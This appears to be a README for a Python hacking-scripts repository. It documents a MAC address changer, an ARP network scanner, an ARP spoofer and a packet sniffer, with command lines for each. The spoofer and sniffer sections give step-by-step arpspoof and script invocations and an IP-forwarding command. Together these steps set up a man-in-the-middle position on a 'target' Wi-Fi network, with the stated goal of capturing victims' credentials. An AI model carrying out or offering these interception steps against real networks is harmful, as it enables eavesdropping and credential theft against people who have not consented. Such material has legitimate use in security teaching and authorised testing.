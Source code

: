 ## PyHacks

This PyHacks repository contains more networking and hacking related python scripts for linux system

---
1. `mac_changer.py`
this programs helps to change your MAC address (MEDIA ACCESS CONTROL) for your devices using python in ` linux [only]`

- `prerequisites : python3`
- get interface name for the devices using `ifconfig`
- run this py script as root user , use this cmd  to get root privilege ` sudo su ` and specify interface and new mac address
`python3 mac_changer --interface wlan1 --mac 11:22:33:44:55:66`

```
shell > python3 mac_changer.py --help

python3 mac_changer --help
Usage: mac_changer.py [options]

Options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface=INTERFACE
                        Used to select Interface for changing MAC address
  -m NEW_MAC, --mac=NEW_MAC
                        Used to select New MAC addresss

````
this scripts just run linux cmds in background for changing current mac address so this script works only on linux

[FAQ]
 if use python2 to run this script `subprocess.check_output()` and `subprocess.run()`is not defined in python2 , then install python3 `sudo apt install python3`
 subprocess.call() has been changed to subprocess.run() in python3
 ```
File "mac_changer.py", line 29, in get_mac_address
    ifconfig_result =  str(subprocess.check_output(["ifconfig",options.interface]),'ascii')

```
---
### Network Scanner
2.`network_scanner.py`
This Program helps to discover devices in your wifi network

- Connect the Target Wifi Network with your devices , then cmd
`ifconfig` and get the ip address (inet) eg: `192.168.1.10`

```py
python3 network_scanner  --range 192.168.1.1/24
```
This Program , Sends packets to `192.168.1.1` to `192.168.1.254`
Print the discovered Devices ip_address and MAC_address in that target network

[FAQs] if get `ImportError: No module named scapy.all` , then install scapy module 
```
pip install scapy
```
```
Usage: network_scanner.py [options]

Options:
  -h, --help            show this help message and exit
  -r RANGE, --range=RANGE
                        Use -r or --range to Scan Your Wifi Network
```

Network Scanning Using ARP

ARP Protocol is a protocol for mapping IP address to a physical machine that is recognised in the local network

ARP Illustration
- If A , B , C , D , ROUTER  is a network `192.168.43.1/24`
- A is Our machine , which says who has --range `192.168.43.1/24` IP this is ARP request , sends to devices in that network
- C Responds for that request as ARP Response  , like I have `192.168.43.7`  and My MAC address  : `00:11:22:33:44:45` for every other packet also

---
### ARP Spoofer
It's a type of attack in which a macilious actor sends false ARP message over a local network

##### Pre Exisitng ARP Spoofing Script,
Let ARP Spoofing Using `arpspoof` from `dsniff` tool
- First Scan The Local Network and discover Devices over that network , get target machine ip address and router ip address
- Let assume Target be a windows machine , In cmd prompt , note mac address of router using `arp -a` cmd 
- Open 2 Terminal  , this required root privilege 
```
arpspoof -i wlan0 -t 192.168.0.143 192.168.0.1
arpspoof -i wlano0 -t 192.168.0.1 192.168.0.143
```


Note Mac Address of Router `arp -a` , Mac Address of Router was changed to Mac address of our machine.

Enable IP Forwarding by run this cmd `echo 1 > /proc/sys/net/ipv4/ip_forward` before running the script , everytime
**To run the script**
```
shell > python3 arp_spoofer.py --help
python3 arp_spoofer.py --help
Usage: arp_spoofer.py [options]

Options:
  -h, --help            show this help message and exit
  -t TARGET_IP, --target=TARGET_IP
                         Used to select Target Machine IP Address
  -s SPOOF_IP, --spoof=SPOOF_IP
                         Used to select Spoof Machine IP Address

````

Spoofing Machine is Network Router Scan the network using `network_scanner.py` , find ip address , always router ip_address will be `XXX.XXX.X.1` it starts with 1
```
python3 arp_spoofer.py -t 192.168.0.14 --s 192.168.0.1
``` 
---
### ARP Sniffer

run `ifconfig` to note your wireless adapter name and connet to target network
Enable IP Forwarding by run this cmd `echo 1 > /proc/sys/net/ipv4/ip_forward` before running the script , everytime
run spoofying script
```
python3 arp_spoofer.py -t 192.168.0.14 --s 192.168.0.1
```
```
python3 arp_sniffer -i wlan_name
```
This program used to be your device inbetween the router and target devices ,and then breakdown the packet into raw data, get credentils of the target.
**To run the script**
```
python3 arp_sniffer.py --help
Usage: arp_spoofer.py [options]

Options:
  -h, --help            show this help message and exit
  -i INTERFACE, --target=INTERFACE
                         Used to specify wireless adapter interface !.
```

  




